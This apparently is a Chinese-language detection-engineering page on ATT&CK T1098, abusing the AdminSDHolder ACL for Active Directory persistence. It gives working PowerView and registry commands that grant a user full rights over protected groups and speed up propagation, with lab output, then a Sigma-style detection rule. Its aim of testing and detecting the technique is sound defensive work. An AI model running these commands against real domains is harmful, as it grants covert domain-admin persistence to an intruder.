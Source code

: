 # T1098-Windows-AdminSDHolder

## 来自ATT&CK的描述

帐户操作可以帮助攻击者维持在环境中对凭据和某些权限级别的访问。账户操作可能包括修改权限，修改凭据，添加或更改权限组，修改帐户设置或修改执行身份验证等方式。为了创建或操纵帐户，攻击者必须已经对系统或域具有足够的权限。

## 测试案例

AdminSDHolder是一个特殊的AD容器，具有一些默认安全权限，用作受保护的AD账户和组的模板。

Active Directory将采用AdminSDHolder对象的ACL并定期将其应用于所有受保护的AD账户和组，以防止意外和无意的修改并确保对这些对象的访问是安全的。

如果能够修改AdminSDHolder对象的ACL，那么修改的权限将自动应用于所有受保护的AD账户和组，这可以作为一个域环境权限维持的方法。

## 检测日志

windows 安全日志

## 测试复现

### 完整利用过程

1.枚举受保护的AD账户和组中的信息

查找有价值的用户，需要确认该用户是否属于受保护的AD账户和组，排除曾经属于受保护的AD账户和组。

2.向AdminSDHolder对象添加ACL

例如添加用户testa对AdminSDHolder的完全访问权限。

默认等待60分钟以后，testa获得对所有受保护的AD账户和组的完全访问权限。

可以通过修改注册表的方式设置权限推送的间隔时间，注册表位置如下：

```reg
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters,AdminSDProtectFrequency,REG_DWORD
```

例如修改成等待600秒的命令如下：

```reg
reg add hklm\SYSTEM\CurrentControlSet\Services\NTDS\Parameters/v AdminSDProtectFrequency /t REG_DWORD/d 600
```

参考资料：<https://blogs.technet.microsoft.com/askds/2009/05/07/five-common-questions-about-adminsdholder-and-sdprop/>

**注：不建议降低默认间隔时间，因为在大型环境中可能会导致LSASS性能下降。**

3.获得对整个域的控制权限

(1)用户testa能够向域管理员组添加帐户。

验证权限的命令如下：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference-match'xiaomi'}
```

(2)用户testa能够直接访问域控制器上的文件。

### 测试过程

1.查询AdminSDHolder对象的ACL
查询AdminSDHolder对象的ACL等价于查询"CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org"的ACL。

命令如下：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System"|select IdentityReference
```

真实测试情况

```powershell
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Import-Module .\PowerView.ps1
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Get-ObjectAcl -ADSprefix "CN=AdminSDHolder,CN=System"|select IdentityR
eference

IdentityReference
-----------------
NT AUTHORITY\Authenticated Users
NT AUTHORITY\SYSTEM
BUILTIN\Administrators
XIAOMI\Domain Admins
XIAOMI\Enterprise Admins
Everyone
NT AUTHORITY\SELF
NT AUTHORITY\SELF
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Pre-Windows 2000 Compatible Access
BUILTIN\Windows Authorization Access Group
BUILTIN\Terminal Server License Servers
BUILTIN\Terminal Server License Servers
XIAOMI\Cert Publishers
```

2.向AdminSDHolder对象添加ACL

添加用户xiaomi的完全访问权限，命令如下：

```powershell
Import-Module .\PowerView.ps1
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName xiaomi -Verbose -Rights All
```

注意:本文提到的百度社区参考链接此处存在问题。是Rights不是文中提到的Right

真实测试情况

```powershell
PS C:\Users\Administrator\Desktop\mimikatz_trunk> Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -Principal
SamAccountName xiaomi -Verbose -Rights All
详细信息: Get-DomainSearcher search string: LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Get-DomainSearcher search string: LDAP://DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 'All' on
CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
详细信息: Granting principal S-1-5-21-3576461989-1381017913-248049510-1104 '00000000-0000-0000-0000-000000000000'
rights on CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org
```

3.验证用户权限

等待六十分钟后，执行以下命令查询用户xiaomi的权限：

```powershell
Import-Module .\PowerView.ps1
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference-match'xiaomi'}
OR
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | select IdentityReference
```

4.删除AdminSDHolder中指定用户的ACL

搜索条件为"LDAP://CN=AdminSDHolder,CN=System,DC=test,DC=com"

删除用户xiaomi的完全访问权限，命令如下（执行失败）：

```powershell
Remove-DomainObjectAcl -TargetSearchBase "LDAP://CN=AdminSDHolder,CN=System,DC=xiaomi,DC=org" -PrincipalIdentity xiaomi -Rights All -Verbose
```

## 测试留痕

windows安全日志

## 检测规则/思路

```yml
title: Windows-AdminSDHolder
description: Windows server 2008 R2（AD域控）
references: https://github.com/infosecn1nja/AD-Attack-Defense/blob/master/README.md OR https://github.com/0Kee-Team/WatchAD/blob/master/modules/detect/event_log/persistence/AdminSDHolder.py
tags: 1098
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 5136  #已修改目录服务对象。AdminSDHolder更改，一般用作权限维持，因为更改情况极少
    selection2:
        EventID: 4780  #ACL设置在管理员组成员的帐户上
    timeframe: last 1h #默认等待60分钟之后生效，具体原因可参考下面SDPROP说明
    condition: all of them
level: medium
```

## 参考推荐

域渗透——AdminSDHolder

<https://anquan.baidu.com/article/877>

PowerView

<https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1>

SDPROP说明

<https://xz.aliyun.com/t/7276>

MITRE-ATT&CK-T1098

<https://attack.mitre.org/techniques/T1098/>
